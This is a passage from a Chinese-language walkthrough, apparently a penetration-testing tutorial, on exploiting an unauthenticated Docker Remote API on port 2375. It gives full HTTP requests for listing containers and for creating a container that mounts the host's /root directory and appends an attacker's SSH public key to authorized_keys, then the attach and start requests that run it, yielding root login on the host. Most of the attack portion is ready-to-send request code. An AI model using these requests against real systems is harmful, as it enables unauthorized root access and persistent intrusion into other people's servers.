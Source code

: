 ![图片](https://uploader.shimo.im/f/NqY7NGJHVuE090sy.png!thumbnail)

json格式的数据就显示的很美观了

1. 获取容器信息：

[http://172.26.1.97:2375/containers/json](http://172.26.1.97:2375/containers/json)

![图片](https://uploader.shimo.im/f/Hl4vSSKGW4AXsKIl.png!thumbnail)

1. 设置免登陆，获取服务器权限（当然得root权限启动docker）

原理：

利用接口创建一个新的容器，将宿主机的 /root/ 目录挂载到容器中，本例中是 /tmp 目录，然后将攻击机的 key (id_rsa.pub) 写入 /tmp/.ssh/authorized_keys 中，也就是写入到了宿主机的 /root/.ssh/authorized_keys 中，然后启动新创建的容器，就可以实现免登陆，从攻击机可以直接登录到靶机

1）创建容器

```
POST /containers/create HTTP/1.1
Host: 172.26.1.97:2375
Content-Type: application/json
cache-control: no-cache
Postman-Token: 7abe8d48-2e9d-4245-a7a4-dbd66279705e
{
 "Image":"ubuntu:18.04",
 "HostConfig":{
 "Binds":[
 "/root/:/tmp/:rw" 
 ]
 },
 "CMD":[
 "/bin/sh",
 "-c",
 "echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC6kYan1DO/mcdvu8WcYvmXbEh4WzHqy9k0yeoN0AY40Gg2tnP9TTDMHUWwT5EZk4+hkL7UMr+CMhjnqucZKX5Yw/GhF3kwQZN/NCu3GtJ3/Abl6G6y3J4ej0Q85kFPnPyIM5ZRygTqq728HaHWDgqwjqSG35Dh7pjuvIV8ULuekYpeFN607bEZ0lM3vt3/Kf/fBZQseZYSoj4/S+hWTmVivDThBGECcbCEpVACX3LLSqMvYEURUlEbE+f9qpLV1y7rSIQNJu3VsitHy2m7TAxScxAYsu3MhJFWYQVUZOlUEatW0Q3Ch9iLvD/H5rnBe+ps6088sp/P0CgzrElPChZ root@kali' >> /tmp/.ssh/authorized_keys"
 ]
}------WebKitFormBoundary7MA4YWxkTrZu0gW-- 
```
创建成功：
![图片](https://uploader.shimo.im/f/rScEvhnqpssohbTK.png!thumbnail)

返回了 containers ID

```
{"Id":"28f2c8024538b93ed26a7ffadf9bce86b0361139947e8fb71767d2fa0d3e2b79","Warnings":[]}
```
2）获取container的信息检查一下是否有问题，这一步可以略过：![图片](https://uploader.shimo.im/f/i5xcBNTwj0MmKK4g.png!thumbnail)

（3） 定是要先attach，再start，这样就可以捕获到输出:

```
POST /v1.17/containers/bcd44e3731cc11cd0afe93445fd2e8ee9b0a34e7c39018920320b88fa6acd57b/attach?stderr=1&stdin=1&stdout=1&stream=1 HTTP/1.1
Host: 172.26.1.97:2375
User-Agent: Docker-Client/1.7.0 (windows)
Content-Length: 0
Content-Type: application/json
Accept-Encoding: gzip
```
start包：
```
POST /v1.17/containers/bcd44e3731cc11cd0afe93445fd2e8ee9b0a34e7c39018920320b88fa6acd57b/start HTTP/1.1
Host: 172.26.1.97:2375
```